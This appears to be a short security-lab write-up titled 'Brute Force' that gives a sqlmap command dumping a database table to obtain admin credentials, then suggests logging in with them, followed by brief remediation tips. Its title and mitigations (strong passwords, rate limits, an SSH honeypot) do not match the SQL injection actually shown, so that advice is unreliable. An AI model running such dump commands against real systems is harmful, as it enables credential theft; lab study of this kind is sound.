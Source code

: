 # Brute Force

It's possible for an attacker to brute force the sign in form

## Steps
* Open your terminal
* Run
```bash
sqlmap "http://192.68.0.106/index.php?page=member&id=1&Submit=Submit#" --dump -D Member_Brute_Force
```
You'll receive 2 admin account credentials

* Log in using the credentials
<img src="https://i.imgur.com/OSQQBkT.png" />

## Vulnerablilities
* An attacker can obtain sensitive data such as user passwords or pins in such cases.

## Ways to secure
* Ensure clients use strong complex passwords.
* Limit the amount requests a client can create
* Setup an endless SSH Honeypot
